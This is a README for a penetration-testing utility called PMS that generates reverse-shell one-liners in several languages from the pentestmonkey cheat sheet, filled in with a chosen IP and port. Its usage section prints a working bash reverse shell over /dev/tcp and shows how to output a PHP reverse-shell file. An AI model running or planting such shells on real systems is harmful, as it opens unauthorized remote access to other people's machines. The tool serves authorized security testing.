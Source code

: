 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-h --host```: *optional*, host IP address\
```-p --port```: *optional* port number

shell types : bash, perl, python, php (shell), ruby, nc, nc-2, java, php-rev (file)


Usage
----------------
```sh
$ python3 pms.py bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py php-rev > shell.php
```
